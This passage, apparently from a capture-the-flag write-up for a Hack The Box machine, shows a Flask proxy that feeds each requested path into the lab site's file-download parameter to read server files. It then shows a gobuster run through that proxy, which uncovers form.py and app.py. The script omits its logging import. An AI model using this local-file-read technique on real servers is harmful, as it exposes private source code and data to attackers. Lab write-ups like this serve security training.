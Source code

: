 ```

from flask import Flask, abort
import requests

app = Flask(__name__)

@app.route('/<path:directory>')
def process_directory(directory):
    # Perform the HTTP request using the given directory
    url = 'http://beta.only4you.htb/download'
    payload = {'image': f'/var/www/only4you.htb/{directory}'}
    response = requests.post(url, data=payload, allow_redirects=False)
    
    # Check if the response contains a 302 status code or a Content-Length of 197
    if response.status_code == 302 or response.headers.get('Content-Length') == '197':
        # Log an error message
        logging.error(f"HTTP request for directory '{directory}' returned a 302 status code or a Content-Length of 197")
        
        # Return a 404 status code
        return "Page not found", 404
    
    # Return the response content as plain text
    return response.text

if __name__ == '__main__':
    app.run()

```
Then ran the app, `python3 app.py` I used the following `gobuster` command:

```

$ gobuster dir -u http://localhost:5000/ -w /usr/share/wordlists/SecLists-master/Discovery/Web-Content/directory-list-2.3-medium.txt -x py --exclude-length 265
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://localhost:5000/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/SecLists-master/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] Exclude Length:          265
[+] User Agent:              gobuster/3.5
[+] Extensions:              py
[+] Timeout:                 10s
===============================================================
2023/04/28 10:14:59 Starting gobuster in directory enumeration mode
===============================================================
/form.py              (Status: 200) [Size: 2025]
/app.py               (Status: 200) [Size: 1297]

```
And found the `form.py` file like that. 
